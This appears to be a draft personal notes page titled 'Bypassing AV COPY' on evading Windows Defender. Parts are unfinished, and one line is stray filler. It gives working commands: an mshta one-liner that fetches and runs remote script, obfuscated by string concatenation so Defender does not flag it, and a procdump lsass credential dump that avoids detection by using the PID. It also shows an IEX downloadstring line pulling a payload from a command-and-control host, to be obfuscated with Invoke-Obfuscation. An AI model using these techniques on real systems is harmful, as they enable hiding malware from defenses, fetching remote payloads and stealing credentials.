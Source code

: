```yaml
---
title: "Bypassing AV COPY"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### Bypassing Defender (Work Out)
reference: https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/

#### Finding AMSI triggers ToDo
Using the 

#### Bypassing generic Defender detection using string concat.
In a lot of cases potentially malicious commands will be blocked by defender. Say we execute the following command, which downloads a JavaScript file which will execute using Microsoft HTA and spawn a calculator.

```
$ mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
This will get flagged my defender immediately and execution will be prevented. However, using string concatination we can very easily obfuscate commands. The following command does not get flagged by Defender:
```
mshta.exe vbscript:Close(Execute("GetO"+"bject"+"(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
***

#### lsass dumping under Windows Defender
When using procdump to dump lsass the dump is removed as soon as it touches disk by Windows Defender. My supplying the PID instead of the process name this can be bypassed. Get the PID via:
```
 tasklist /fi "imagename eq lsass.exe"
```
Then dump using the PID:
```
procdump -accepteula -ma <PID> lsass.dmp
```
***


#### Unhook API calls ToDo

#### Add data to the binary
Adding random or "known good" data to the beginning or end of a binary can serve two causes. One; some antimalware software has a limit on size of the files they can inspect (for performance reasons). Adding lots of exra data might exempt you from analysis.
Two; Adding data from software or files that is known to be good can help increas the "goodness"-score when statically analysing the file.

#### Obfuscating PowerShell using Invoke-Obfuscation ToDo
Invoke-Obfuscation is a framework to obfuscate PowerShell. The examples below show how to encode a PowerShell webdelivery scriptblock generated by Cobalt Strike using the 'TOKEN' obfuscation method.

```
$ Import-Module ./Invoke-Obfuscation.psd1
$ Invoke-Obfuscation
$ set SCRIPTBLOCK IEX (New-Object Net.Webclient).downloadstring('http://cobaltstrike.c2/evil.ps1')
$ TOKEN
$ ALL
$ 1
```
***


#### Using syscals ToDo
